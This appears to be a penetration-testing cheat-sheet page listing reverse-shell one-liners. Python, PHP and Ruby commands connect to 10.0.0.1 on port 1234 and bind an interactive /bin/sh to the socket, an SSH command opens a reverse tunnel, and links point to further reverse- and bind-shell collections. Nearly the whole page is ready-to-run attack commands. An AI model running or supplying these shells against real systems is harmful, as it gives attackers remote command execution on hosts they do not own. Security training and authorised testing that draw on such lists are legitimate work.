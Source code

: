 ### Python Cheat Sheet

```commandline
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP Cheat Sheet

```commandline
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby Cheat Sheet

```commandline
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Note need -l on some versions, and many does NOT support -e anymore

### SSH Cheat Sheet

```commandline
ssh -NR 3333:localhost:22 user@yourhost
```

## See also

- [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- <https://www.revshells.com> - Create your reverse shell with this web tool / interface.
- [Web Reverse Shell](web-reverse-shell)
- [Swissky Bind Shells Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)
- [PayloadAllThings PowerSheel Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>